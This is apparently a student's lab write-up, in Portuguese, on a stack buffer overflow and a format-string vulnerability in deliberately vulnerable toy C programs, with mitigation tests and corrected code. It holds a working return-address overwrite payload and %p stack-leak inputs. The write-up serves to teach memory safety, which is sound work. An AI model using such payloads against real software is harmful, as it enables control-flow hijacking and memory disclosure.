


Parte A

## Exercício 1

-fno-stack-protector
Desativa a proteção da stack através de stack canaries. Normalmente, o compilador coloca um valor especial antes do endereço de retorno da função; se esse valor for alterado por um buffer overflow, o programa termina. Com esta flag, essa verificação deixa de existir.
-z execstack
Marca a stack como executável. Isto permite que código colocado na stack possa ser executado. Sem esta flag, a stack costuma estar protegida pela mitigação NX (No-eXecute).
-no-pie
Desativa a compilação como Position Independent Executable. O executável passa a ser carregado sempre no mesmo endereço de memória, tornando os endereços previsíveis e facilitando ataques que dependem de endereços fixos.
-g
Inclui informação de depuração no executável. Isto permite usar ferramentas como o GDB para ver linhas de código, variáveis e endereços durante a execução.

## Exercício 2

1. Endereço de buffer: 0x7fffffffdb40
2. Endereço do return address guardado: 0x7fffffffdb88
3. Distância entre buffer e o return address: 0x48 bytes (72 bytes)
4. Endereço de secret_function: 0x4011b6

## Exercício 3

- Offset exato: `72` bytes (`0x48`)
- Endereço usado (`secret_function`): `0x4011b6`
- Representação little-endian do endereço: `\xb6\x11\x40\x00\x00\x00\x00\x00`

Comando utilizado:

```bash
./vuln $(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xb6\x11\x40\x00\x00\x00\x00\x00')")
```



## Exercício 4

1. ### `gcc -o vuln vuln.c -z execstack -no-pie -g`
- O exploit deixou de funcionar.
- Output :
  ```
  *** stack smashing detected ***: terminated
  [1]    37046 IOT instruction (core dumped)
  ```
Como a flag -fno-stack-protector foi removida, o compilador ativou stack canaries. O overflow altera o canary antes de chegar ao return address, e o programa termina antes de saltar para secret_function.

2. ### `gcc -o vuln vuln.c -fno-stack-protector -z execstack -g`
- O exploit deixou de funcionar.
- Output :
  ```
  [1]    37704 segmentation fault (core dumped)
  ```
Como a flag -no-pie foi removida, o executável é compilado com PIE e o endereço de secret_function muda em cada execução devido à ASLR. O payload continua a usar o endereço antigo (0x4011b6), pelo que o programa tenta saltar para um endereço inválido.

3. ### `gcc -o vuln vuln.c -g`
- O exploit deixou de funcionar.
- Output :
  ```
  *** stack smashing detected ***: terminated
    [1]    37844 IOT instruction (core dumped)  ./vuln
  ```
Com todas as mitigações ativas, o stack canary deteta o overflow e termina o programa. Além disso, mesmo que o canary não existisse, a ASLR/PIE faria variar o endereço de secret_function, impedindo que o payload funcionasse.



## Exercício 5

### Código corrigido
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void secret_function(void) {
    printf("\n[!] ACCESS GRANTED: you reached the secret function!\n");
    printf("[!] In a real exploit, this could be arbitrary code execution.\n\n");
    exit(0);
}

void process_input(char *input) {
    char buffer[64];
    size_t len = strlen(input);

    printf("[*] Buffer is at: %p\n", (void *)buffer);
    printf("[*] secret_function is at: %p\n", (void *)secret_function);

    if (len >= sizeof(buffer)) {
        fprintf(stderr, "[!] Error: input too long for buffer.\n");
        return;
    }

    strncpy(buffer, input, sizeof(buffer) - 1);
    buffer[sizeof(buffer) - 1] = '\0';

    printf("[*] You entered: %s\n", buffer);
}

int main(int argc, char *argv[]) {
    if (argc < 2) {
        fprintf(stderr, "Usage: %s <input>\n", argv[0]);
        return 1;
    }

    printf("[*] process_input return address is on the stack.\n");
    process_input(argv[1]);
    printf("[*] Normal programme termination.\n");
    return 0;
}
###

A função strcpy foi substituída por strncpy, evitando a cópia ilimitada para o buffer. Além disso, foi adicionada uma verificação explícita de comprimento com strlen(input) para garantir que a entrada não excede a capacidade do vetor. Desta forma, o programa impede a sobrescrita da stack e elimina a vulnerabilidade de buffer overflow.

O programa foi compilado com as mitigações por defeito ativas:

gcc -o vuln_correct vuln_correct.c -g
Teste da correção

O programa foi testado com uma entrada curta e válida:

./vuln_correct "Hello"

Output obtido:

[*] process_input return address is on the stack.
[*] Buffer is at: 0x7fff939c5750
[*] secret_function is at: 0x55f58a6c7229
[*] You entered: Hello
[*] Normal programme termination.

De seguida, o programa foi testado com uma entrada excessivamente longa:

./vuln_correct $(python3 -c "print('A'*100)")

Output obtido:

[*] process_input return address is on the stack.
[*] Buffer is at: 0x7ffe12a35f30
[*] secret_function is at: 0x5557a8522229
[!] Error: input too long for buffer.
[*] Normal programme termination.

Este resultado mostra que a verificação explícita de comprimento deteta a entrada excessiva e impede a cópia para o buffer, evitando a sobrescrita da stack.


Parte B 

## Exercício 6

Ao compilar com:

`gcc -o fmtvuln fmtvuln.c -g -Wall -Wformat -Wformat-security`

output: 

`warning: format not a string literal and no format arguments [-Wformat-security]`

Este aviso aponta para a linha:

`printf(input);`

A mensagem indica que a entrada do utilizador está a ser usada diretamente como string de formato. Isto é uma vulnerabilidade, porque se o utilizador introduzir especificadores como `%p`, `%x` ou `%s`, o `printf` irá interpretá-los em vez de os imprimir como texto normal.

Como não foram passados argumentos correspondentes a esses especificadores, o programa pode acabar por ler e mostrar valores presentes na stack ou noutras zonas da memória.

Ao executar o programa com uma entrada normal:

`./fmtvuln 'Hello, world!'`

o programa comportou-se como esperado, imprimindo apenas a mensagem recebida.

Os avisos do compilador são úteis porque ajudam a detetar este tipo de padrão inseguro antes da execução. No entanto, não são suficientes por si só, porque podem ser ignorados e não substituem a correção do código vulnerável.


## Exercício 7

Ao executar:

`./fmtvuln "%p %p %p %p %p %p %p %p %p %p"`

o programa não imprimiu a string literalmente. Em vez disso, interpretou cada `%p` como um especificador de formato e imprimiu vários valores de memória, output :


[*] Address of secret on stack: 0x7ffe16c9d870 [*]
Processing input...
0x1 0x1 0x7f1ec3337907 0x7f1ec343fa70 
0x7ffe16c9d72c 0x7ffe16d7c000 0x7ffe16c9df4b 0xcafebabe 0x2a22641808d55500 
0x7ffe16c9d8a0 
[*] Normal programme termination.

No Exercício 6, onde a entrada `Hello, world!` foi apenas impressa como texto. Aqui, como a entrada contém `%p`, o `printf` interpreta esses valores como instruções para imprimir pointers.

Cada `%p` é interpretado pelo `printf` como um pedido para imprimir um pointer. Como o programa usa `printf(input)` sem passar argumentos extra, o `printf` acaba por ler valores que estão nos registos ou na stack pois em C, funções como `printf` não sabem automaticamente quantos argumentos foram realmente passados.

Com `%x` também são mostrados valores da memória, mas apenas em hexadecimal de 32 bits. Num processo de 64 bits, `%p` é mais adequado, porque imprime pointers/endereço completos.

## Exercício 8


`./fmtvuln "$(python3 -c "print('%p ' * 30, end='')")"`

output:

[*] Address of secret on stack: 0x7ffdf598cd30
[*] Processing input...
0x1 0x1 0x7fa0b15ca907 0x7fa0b16d2a70 0x7ffdf598cbec 0x7ffdf599f000 0x7ffdf598dfa8 0xcafebabe 0x3b4b7f667a1fa400 0x7ffdf598cd60 0x5577bcd642a5 0x7ffdf598ce78 0x2bcd640e0 0x2 0x7fa0b14dfd90 (nil) 0x5577bcd6424d 0x2f598ce60 0x7ffdf598ce78 (nil) 0x8db32a023bff2ef 0x7ffdf598ce78 0x5577bcd6424d 0x5577bcd66da0 0x7fa0b1726040 0xf720d991b95bf2ef 0xf79a503bd933f2ef 0x7fa000000000 (nil) (nil)
[*] Normal programme termination.

O programa imprimiu inicialmente o endereço da variável local `secret`:

`0x7ffdf598cd30`

De seguida, o `printf` interpretou os vários `%p` e imprimiu valores presentes nos registos/stack:

`0x1 0x1 0x7fa0b15ca907 0x7fa0b16d2a70 0x7ffdf598cbec 0x7ffdf599f000 0x7ffdf598dfa8 0xcafebabe ...`

O valor sentinela `0xcafebabe` apareceu na 8.ª posição da sequência de `%p`.

Isto demonstra que uma vulnerabilidade de string de formato pode permitir a divulgação de informação interna do processo. Um atacante pode recuperar valores presentes na stack, como variáveis locais, endereços de memória e outros dados sensíveis usados durante a execução do programa.

## Exercício 9

`printf(input);`

Foi substituído por:

`printf("%s", input);`

Esta versão é segura porque a string de formato passa a ser fixa (`"%s"`). A entrada do utilizador é passada como argumento e tratada apenas como texto. Assim, mesmo que a entrada contenha especificadores como `%p` ou `%x`, estes são impressos literalmente e não são interpretados pelo `printf`.

Depois de recompilar com:

`gcc -o fmtvuln fmtvuln.c -g -Wall -Wformat -Wformat-security`

e de seguida correr:

`./fmtvuln '%p %p %p %p %p %p %p %p %p %p'`

output:

```text
[*] Address of secret on stack: 0x7ffee5995a30
[*] Processing input...
%p %p %p %p %p %p %p %p %p %p
[*] Normal programme termination.
```

não foi produzido nenhum aviso relacionado com strings de formato.

Isto confirma que os especificadores `%p` foram impressos literalmente e já não houve divulgação de valores da stack.

